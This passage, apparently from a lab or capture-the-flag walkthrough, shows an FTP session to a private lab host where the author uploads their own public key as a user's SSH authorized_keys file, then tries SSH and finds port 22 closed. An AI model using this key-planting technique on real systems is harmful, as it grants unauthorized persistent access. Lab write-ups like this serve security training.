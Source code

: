 `ftp 192.168.56.130`:
```  
Connected to 192.168.56.130.
220 (vsFTPd 3.0.3)
Name (192.168.56.130:kali): pink ←
331 Please specify the password.
Password: ←
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```
ftp> cd pink
250 Directory successfully changed.
ftp> cd .ssh
250 Directory successfully changed.
ftp> put pink_rsa.pub authorized_keys ←
local: pink_rsa.pub remote: authorized_keys
229 Entering Extended Passive Mode (|||44875|)
150 Ok to send data.
100% |************************************************************************************************************************************************|   738        2.81 MiB/s    00:00 ETA
226 Transfer complete.
738 bytes sent in 00:00 (369.21 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||15813|)
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 Sep 30 18:56 .
drwx------    3 1000     1000         4096 Feb 11  2023 ..
-rw-------    1 1000     1000          738 Sep 30 18:56 authorized_keys ←
226 Directory send OK.
ftp> exit
221 Goodbye.
```

`ssh -i ./pink_rsa pink@192.168.56.130`:
```
ssh: connect to host 192.168.56.130 port 22: Connection refused ←
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
